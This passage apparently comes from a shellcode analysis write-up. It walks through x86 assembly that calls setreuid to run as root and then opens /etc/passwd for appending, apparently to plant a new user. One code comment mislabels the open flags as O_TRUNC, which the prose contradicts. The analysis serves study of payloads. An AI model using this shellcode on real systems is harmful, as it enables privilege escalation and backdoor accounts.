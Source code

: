 ## Stepping through the shellcode

`int setreuid(uid_t ruid, uid_t euid)`

> setreuid() can be used by daemon processes to change the identity of a process in order for the process to be used to run work on behalf of a user.

The `setreuid` function is called so the program executes as root (of course, the user or process executing the shellcode must have privileges to do so). This is often used when the process itself doesn't run as root but has privileges to do, for example if the SUID bit is set on the file.

```nasm
xor ecx,ecx              ; ecx = 0
mov ebx,ecx              ; ebx = 0
push byte +0x46          ; eax = 0x46 -> sys_setreuid16
pop eax
int 0x80
```

`int open(const char *pathname, int flags)`

A file descriptor is then created so the shellcode can write the new user into `/etc/passwd`. The `open` function expects a pointer to the filename `/etc/passwd` and the flags. The filename contains extra slashes so make it 4 bytes aligned. The extra slashes in the filename don't change the behavior as Linux don't care of there is a single slash or multiple ones.

Flags specify if the file should be opened as read-only, write-only, etc.

The list of flags is in the `fnctl.h` file:

```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
#define O_CREAT         00000100
#define O_EXCL          00000200
#define O_NOCTTY        00000400
#define O_TRUNC         00001000
#define O_APPEND        00002000
...
```

These values are encoded in octal base, so when we look at the disassembled code below for the `open` function, we see that the `$ecx` register contains the value 0x401 which translates to 2001 in octal base. Therefore the `O_WRONLY` and `O_APPEND` flags are used on `/etc/passwd`.

```nasm
push byte +0x5           ; eax = 0x5 -> sys_open
pop eax
xor ecx,ecx              ; ecx = 0
push ecx                 ; null-terminate pathname string
push dword 0x64777373    ; /etc//passwd
push dword 0x61702f2f    ; [...]
push dword 0x6374652f    ; [...]
mov ebx,esp              ; const char *pathname -> /etc//passwd
inc ecx                  ; ecx = 0x1
mov ch,0x4               ; ecx = 0x401, int flags -> O_TRUNC + O_WRONLY
int 0x80
```
